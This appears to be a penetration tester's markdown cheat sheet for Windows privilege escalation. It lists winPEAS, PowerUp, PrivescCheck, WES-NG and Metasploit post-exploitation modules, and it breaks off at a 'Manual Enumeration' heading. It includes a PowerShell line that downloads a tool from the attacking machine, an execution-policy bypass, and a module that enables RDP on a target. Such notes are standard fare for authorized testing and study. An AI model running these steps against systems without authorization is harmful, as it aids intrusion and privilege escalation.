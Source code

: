 
# Automated PrivEsc

for using powershell to download from attacking machine:
	`wget [url] -outfile winPEASx64.exe`

`jaws-enum.ps1` https://github.com/411Hall/JAWS

MSF Modules if you have meterpreter
- See Kiwi Plugin in Metasploit
- `/post/windows/gather/win_privs`
- `/post/windows/gather/enum_logged_on_users`
- `/post/windows/gather/checkvm`
- `/post/windows/gather/enum_applications`
- `/post/windows/gather/enum_computers`
- `/post/windows/gather/enum_shares`


PowerSploit - Windows Privilege Escalation
- https://github.com/PowerShellMafia/PowerSploit/tree/master
- PowerUp.ps1: https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/README.md
- A privesc enumerator that uses different modules depending on different levels of privilege. Primarily searches for misconfigurations.
- `. .\PowerUp.ps1`
- `Get-Command -Module Privesc` will return a list of commands
- `Get-Help [command]` will give more details for each

# General

## Enumeration

### Tools

Winpeas - [https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)

PrivescCheck - [https://github.com/itm4n/PrivescCheck](https://github.com/itm4n/PrivescCheck)

- You may need to bypass execution policy restrictions
	- `Set-ExecutionPolicy Bypass -Scope process -Force`
	- `. .\PrivescCheck.ps1`
	- `Invoke-PrivesCheck`

WES-NG: exploit script that doesn't involve uploading. Run from attacking machine
- [https://github.com/bitsadmin/wesng](https://github.com/bitsadmin/wesng)
- `Wes.py --update` first
- Run `systeminfo` command on the target first, it will pull results from that
- `Wes.py systeminfo.txt` (on attacking machine), this will output it to the .txt file

With MSF meterpreter. `post/windows/manage/enable_rdp` if you want an rdp session (don't migrate processes)

### Manual Enumeration
